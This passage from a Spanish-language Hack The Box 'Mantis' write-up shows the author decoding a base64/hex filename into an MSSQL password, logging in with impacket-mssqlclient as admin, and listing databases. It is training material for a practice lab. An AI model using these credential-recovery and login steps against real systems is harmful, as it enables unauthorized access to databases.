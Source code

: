 - Aquí ya vemos que nos están dando información sobre `SQL Server` que el puerto como tal esta abierto. 

<p align="center">
<img src="/assets/hackthebox/img/machines/hard/mantis/web6.png">
</p>

- Si nos fijamos en el nombre del archivo vemos que esta en `base64` a si que vamos aplicar un `decode`.

```bash
❯ echo "NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx" | base64 -d; echo
6d2424716c5f53405f504073735730726421
```

- Y nos devuelve una cadena en `hexadecimal` y al final una contraseña. 

```bash
❯ echo "6d2424716c5f53405f504073735730726421" | xxd -ps -r; echo
m$$ql_S@_P@ssW0rd!
```

## mssqlclient admin 

- Si revisamos en las notas nos dicen que el usuario es `admin` que lo mas probable es que esa base de datos que nos piden crear ya esta creada y como tal tenemos una contraseña a si que nos podemos conectar con  `mssqlclient.py`.

```bash
❯ impacket-mssqlclient htb.local/admin:'m$$ql_S@_P@ssW0rd!'@mantis.htb.local
Impacket v0.10.1.dev1+20230207.122134.c812d6c7 - Copyright 2022 Fortra

[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> 
```

- Vamos a enumerar las bases de datos.

```bash
SQL> select name from sysdatabases;
name                                                                                                                           >

------------------------------------------------------------------------------------------------------------------------------->

master                                                                                                                         >

tempdb                                                                                                                         >
```